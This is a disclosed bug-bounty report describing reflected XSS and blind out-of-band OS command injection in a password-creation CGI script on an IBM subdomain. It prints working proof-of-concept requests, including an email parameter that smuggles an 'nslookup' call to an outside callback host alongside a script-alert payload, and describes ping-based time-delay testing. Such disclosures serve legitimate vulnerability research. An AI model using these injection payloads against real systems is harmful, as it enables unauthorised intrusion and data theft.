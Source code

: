 # Reflected XSS and Blind out of band command injection at subdomain dstuid-ww.dst.ibm.com

## Report Details
- **Report ID**: 410334
- **URL**: https://hackerone.com/reports/410334
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-09-16T14:35:35.912Z
- **Disclosed**: 2022-02-04T18:23:07.515Z

## Reporter
- **Username**: ragnaroc
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibm

## Vulnerability Information
I found an XSS and Blind OS based injection issue due to the incorrect handling of the  characters in THE EMAIL  get& post parameters.  A <script> injected and a sleep command succesfully executed, the following link works as a PoC that alerts the string in the script:
I reproduced the same on Firefox and IE and Microsoft Edge
XSS POC URL:-
GET /cgi-bin/PasswordCreate.pl?email=%26nslookup%20%22dqzr3elx6wgztgtzd3if-0oyyf_qzd2wodwlaljh%22%2286m.r87.me%22cier4%3cscript%3ealert(1)%3c%2fscript%3emikflzhwaep&ibm-submit=Submit HTTP/1.1
Host: dstuid-ww.dst.ibm.com


https://dstuid-ww.dst.ibm.com/cgi-bin/PasswordCreate.pl?email=%26nslookup%20%22dqzr3elx6wgztgtzd3if-0oyyf_qzd2wodwlaljh%22%2286m.r87.me%22cier4%3cscript%3ealert(1)%3c%2fscript%3emikflzhwaep&ibm-submit=Submi

OSCOMMAND INJECT

POST /cgi-bin/PasswordCreate.pl HTTP/1.1
Host: dstuid-ww.dst.ibm.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 39
Content-Type: application/x-www-form-urlencoded
Referer: https://dstuid-ww.dst.ibm.com/PasswordCreate.html
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36
X-Scanner: Netsparker

email=-------------------------&ibm-submit=Submit

For the blind os command injection i used three variables:_
1. A random email address (To bench mark the normal responce time
2.  Ping requests  of 10 and 20 seconds 

The reply from the server prooved that the  time-delay inference existed.

See attached videos and images for POC

## Impact

This allows an attacker to inject custom Javascript codes that can be used to steal information from  user base and lure them to malicious websites on the internet on behalf of IBM website.

## Attachments
- XSSPOC.PNG
- POC1.PNG
- POC2.PNG
- POC3.PNG
- Command_injection.flv
- XSS.flv

